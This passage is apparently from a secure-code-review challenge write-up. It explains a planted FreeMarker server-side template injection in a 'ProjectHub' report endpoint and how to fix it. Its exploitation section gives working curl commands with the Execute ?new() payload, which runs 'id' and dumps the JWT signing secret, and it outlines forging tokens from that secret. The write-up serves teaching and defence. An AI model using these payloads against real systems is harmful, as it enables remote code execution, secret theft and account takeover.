**default** `Configuration` (FreeMarker 2.3.33, `UNRESTRICTED_RESOLVER`, `?new()` enabled). FreeMarker's
own docs warn that [a template is a program](https://freemarker.apache.org/docs/app_faq.html#faq_template_uploading_security):
*"you must not let people you don't trust upload templates."* Here **any project member** can, so the
`${...}` the UI advertises as field substitution is a full expression language with Java reflection.
**❌ Not mitigated — this is the planted vulnerability.**

```java
// ReportService.render — an attacker-controlled string is compiled AS a template
Template template = new Template("report", new StringReader(templateSource), freemarker);
template.process(Map.of("project", project), out);   // freemarker = the app's DEFAULT Configuration
```

---

# Part II: Solution

## 6. 🧪 The vulnerability & exploitation

- **Class:** Server-Side Template Injection → Remote Code Execution
  ([CWE-1336](https://cwe.mitre.org/data/definitions/1336.html) / [CWE-94](https://cwe.mitre.org/data/definitions/94.html))
- **Root cause:** `ReportService.render` compiles a request-supplied string as a FreeMarker template
  ([ReportService.java#L25-L33](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/service/ReportService.java#L25-L33))
- **Sink:** `new Template("report", new StringReader(templateSource), freemarker)` →
  `template.process(...)`
- **Reachable by:** any authenticated **project member** (the lowest role) via
  `POST /api/projects/{id}/report` with a `template` body, or the equivalent UI form.

### 🧠 Why it works

The field placeholders the UI shows (`${project.name}`) aren't a bespoke mini-syntax — they're real
FreeMarker expressions, because the whole string is handed to a real FreeMarker `Template`. FreeMarker
expressions can do far more than read `project.*`:

- `${7*7}` evaluates arithmetic → the classic SSTI probe (`49` proves code evaluation).
- The [`?new`](https://freemarker.apache.org/docs/ref_builtins_expert.html#ref_builtin_new) built-in
  instantiates **any** class implementing `TemplateModel`, and
  `freemarker.template.utility.Execute` is a built-in utility that **runs a shell command and inlines
  its stdout**:

  ```
  <#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}
  ```

Because `ReportService` reuses Spring's view `Configuration`, which keeps FreeMarker's default
[`TemplateClassResolver.UNRESTRICTED_RESOLVER`](https://freemarker.apache.org/docs/api/freemarker/core/TemplateClassResolver.html#UNRESTRICTED_RESOLVER)
(the `SAFER_RESOLVER` / `ALLOWS_NOTHING_RESOLVER` that would block `Execute` is opt-in), `?new()` is
fully available and the payload executes as the app user — straight to RCE.

### 🚀 Exploitation steps / PoC

Set up two ordinary users and a project; `bob` joins as a plain **member** (no admin rights). All of
this is done against the running app with `curl`.

```bash
B=http://localhost:3000; J='Content-Type: application/json'

# 1. Two users register and log in (public endpoints)
curl -s -XPOST $B/api/auth/register -H "$J" -d '{"username":"alice","password":"alicepass123"}'
curl -s -XPOST $B/api/auth/register -H "$J" -d '{"username":"bob","password":"bobpass1234"}'
A=$( curl -s -XPOST $B/api/auth/login -H "$J" -d '{"username":"alice","password":"alicepass123"}' | jq -r .token)
BT=$(curl -s -XPOST $B/api/auth/login -H "$J" -d '{"username":"bob","password":"bobpass1234"}'   | jq -r .token)

# 2. alice creates a project and invites bob as a plain member; bob accepts
P=$(  curl -s -XPOST $B/api/projects -H "$J" -H "Authorization: Bearer $A" \
        -d '{"name":"Apollo","description":"Launch plan"}' | jq -r .id)
INV=$(curl -s -XPOST $B/api/projects/$P/members -H "$J" -H "Authorization: Bearer $A" \
        -d '{"username":"bob","role":"member"}' | jq -r .id)
curl -s -XPOST $B/api/invitations/$INV/accept -H "Authorization: Bearer $BT"
```

Now, as **bob** (the lowest role), a single request runs an OS command on the server. The `${7*7}`
line is just a one-shot sanity check that the `template` body is evaluated; the next request is the RCE:

```bash
# sanity check: arithmetic is evaluated → SSTI confirmed
$ curl -s -XPOST $B/api/projects/$P/report -H "$J" -H "Authorization: Bearer $BT" -d '{"template":"${7*7}"}'
{"report":"49"}

# RCE: run `id` as the app user
$ curl -s -XPOST $B/api/projects/$P/report -H "$J" -H "Authorization: Bearer $BT" \
    --data-binary '{"template":"<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"id\")}"}'
{"report":"uid=1001(appuser) gid=1001(appuser) groups=1001(appuser)\n"}
```

**Impact escalation — steal the JWT signing secret** and you can forge *any* user's session (full
account takeover, including project owners):

```bash
$ curl -s -XPOST $B/api/projects/$P/report -H "$J" -H "Authorization: Bearer $BT" \
    --data-binary '{"template":"<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"printenv JWT_SECRET\")}"}'
{"report":"9gFcAnWg1xx9ikMbOXR-QKnC-Pm_baa3kFxZMWOTRXU\n"}
```

With the signing key, forge a token for any user id (including a project owner).

**Impact:** Any registered user who gets into a project (the lowest `member` role) achieves remote
code execution on the application server, in-process access to MongoDB, and disclosure of the JWT
secret → full application compromise.

## 7. 🛠️ Suggested fix

**Primary fix — never compile user input as a template.** The report "template" is *data*: render it
with simple, non-executable substitution instead of a template engine. For the advertised fields a
plain replacement is enough:

```java
public String render(String templateSource, Project project) {
    return templateSource
        .replace("${project.name}",        nullToEmpty(project.getName()))
        .replace("${project.status}",      nullToEmpty(project.getStatus()))
        .replace("${project.description}", nullToEmpty(project.getDescription()));
}
```

**Defense-in-depth (do these too — never rely on a single control):**

1. **If a template engine is genuinely required, sandbox it.** Lock the FreeMarker `Configuration`
   down with
   [`setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER)`](https://freemarker.apache.org/docs/api/freemarker/core/Configurable.html#setNewBuiltinClassResolver-freemarker.template.utility.TemplateClassResolver-)
   (or `ALLOWS_NOTHING_RESOLVER`), set `setAPIBuiltinEnabled(false)`, and use a restricted
   `ObjectWrapper` — this is the control the YouTrack case below relied on. Note the sandbox is only
   as strong as the FreeMarker version (pre-2.3.30 escapes exist), so keep the engine current.
2. **Keep the two FreeMarker uses separate.** The HTML views are fine *because* their source is
   trusted and auto-escaped; make it structurally impossible for request data to become template
   source anywhere.
3. **Don't keep high-value secrets reachable from app RCE as plain env vars** — but treat this as
   damage-limitation, not a fix; the RCE itself is the bug.
4. **Least privilege** on the report action if the feature stays (owners/admins only) reduces, but
   does not remove, the exposure.

## **Real world examples 🌍**

- **[From Template to Threat: Exploiting Freemarker SSTI for Remote Code Execution](https://blogs.sayaan.in/freemarkerssti)**
  (Sayaan Alam, 2024) — on a Synack retest, an admin **email-template editor** accepted FreeMarker;
  the author confirmed injection with `${7*7}` (visible in the email event log), reached for the
  classic `freemarker.template.utility.Execute` `?new()` payload, bypassed a keyword filter with
  `?lower_abc` character-encoding, and ran `id`/`whoami`. Same sink and same `Execute` primitive as
  ProjectHub — only here there's no filter to bypass.
- **[Exploiting CVE-2021-25770: A Server-Side Template Injection in YouTrack](https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack)**
  (Synacktiv, 2021) — JetBrains YouTrack (an issue/project tracker) rendered admin **notification
  templates** with FreeMarker. The author diffed the vulnerable and patched builds, confirmed SSTI
  with an arithmetic expression in the template preview, and — because YouTrack *did* restrict the
  class resolver — used a pre-2.3.30 sandbox escape to reach command execution as the service user.
  The mirror image of ProjectHub: same class, but shows what the **missing** `TemplateClassResolver`
  from the fix above would have forced an attacker to defeat.

## **More resources** 📚

- [CWE-1336: Improper Neutralization of Special Elements Used in a Template Engine](https://cwe.mitre.org/data/definitions/1336.html)
  and [CWE-94: Code Injection](https://cwe.mitre.org/data/definitions/94.html)
- [OWASP — Testing for Server-Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection)
- [PortSwigger Research — Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection)
  and the [Web Security Academy SSTI labs](https://portswigger.net/web-security/server-side-template-injection)
- [FreeMarker — "Will [X] be able to upload templates?" (security FAQ)](https://freemarker.apache.org/docs/app_faq.html#faq_template_uploading_security)
  and [`TemplateClassResolver` API](https://freemarker.apache.org/docs/api/freemarker/core/TemplateClassResolver.html)
- [PayloadsAllTheThings — SSTI (Java / FreeMarker)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Java.md)

**Takeaway:** Auto-escaping makes a template engine safe for *trusted templates with untrusted data* —
it says nothing about *untrusted templates*. The moment user input becomes template **source**, a
template engine is an arbitrary-code interpreter: treat "customizable templates" as code execution by
design, and render user-provided formats with non-executable substitution (or a hardened sandbox),
never the app's default engine.
